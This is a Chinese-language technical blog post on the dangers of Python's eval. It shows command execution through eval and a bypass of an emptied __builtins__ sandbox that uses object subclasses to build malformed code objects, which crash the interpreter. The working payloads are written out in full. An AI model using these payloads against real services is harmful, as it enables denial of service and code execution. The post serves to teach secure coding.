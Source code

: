 ```yaml
---
title: Python的Eval和字节码
date: 2020-01-02 18:50:38
author: repoog
excerpt: 本文介绍在Python程序中如何利用不安全的函数evil来实现对于拒绝服务攻击代码的执行，以及其攻击原理。
comments: true
tags:
  - Python
  - 字节码
  - 安全开发
  - 拒绝服务
  - 恶意代码
categories:
  - 软件安全
---
```


有人在Twitter上发了张图，显示Python官方的示例打码中使用了不安全的函数eval，用"intext:eval site:svn.python.org filetype:py"可以找到更多示例代码。有人说既然能运行Python，有没有用eval不重要。无论在哪种编程语言中，eval函数都是不安全的函数，要慎用，这是良好编程习惯的问题，其次，像开启Debug模式的Flask应用，即便不直接接触系统，也可以通过eval do evil。

Python的内建函数 eval 完整函数定义是eval(source, globals=None, locals=None)，字符串或代码对象传入source参数执行Python代码，执行的全局上下文和本地上下文环境通过globals和locals定义。比如通过eval("\_\_import\_\_('os').system('ls')")执行ls命令。

\_\_import\_\_是import的内部实现方式，返回的是参数传入的模块，而\_\_import\_\_本身也是内建built-in函数，因此可以通过设置eval的globals参数，将\_\_builtins\_\_对象置空来禁用builtins对象相关的内建函数和常量，比如\_\_import\_\_、print、True、None。

``` Python
eval("__import__('os').system('ls')", {'__builtins__':{}})
```

全局环境\_\_builtins\_\_置空后，eval执行将返回函数未定义的错误，包括基类object。但\_\_builtins\_\_对象并不包含list、tuple、\_\_class\_\_（获取实例所属的类）、\_\_bases\_\_（获取类的基类）、\_\_subclasses\_\_（获取类的子类），而list和tuple也是object类的子类。因此通过list实例或tuple实例可以获取到object类，进而获取到所有的类 ，从而绕过\_\_builtins\_\_对象被禁用而无法使用object类。

``` Python
().__class__.__bases__[0].__subclasses__()
[].__class__.__bases__[0].__subclasses__()
```

通过以上代码可以获取object类的所有子类，结合列表推导，可以得到任意类对象：

``` Python
[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0]
```

从class code的\_\_doc\_\_可知，这个类的构造函数可以用于创建新的代码对象（即PyCodeObject\* PyCode\_New()），代码对象是描述字节码的结构，字节码继而在Python虚拟机中执行，但代码对象未绑定到具体函数。PyCode\_New()有13个必填参数，第6个参数是字节码（代码对象的co\_code属性），第13个参数是字节码的行号表（代码对象的co\_lnotab属性）。

``` Python
[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'', (), (), (), '', '', 0, b'')
```

以上代码创建的代码对象被eval调用，会因为段错误导致Python解释器退出，即拒绝服务攻击。

``` Python
eval([c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'hello', (), (), (), '', '', 0, b'', (), ()), {"__builtins__":{}})
```

或者结合class function的函数对象（PyObject\* PyFunction\_New），用字符串（字节码参数不能为空）传入eval产生同样的效果。

``` Python
eval("[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'function'][0]([c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'b', (), (), (), '', '', 0, b'', (), ()), {})()", {"__builtins__":{}})
```

如果没有内建函数的限制，compile可以更简单地将py文件或py字符串编译成代码对象。如果代码对象结构的各个属性传入正确，可以通过eval或exec正确执行字节码。
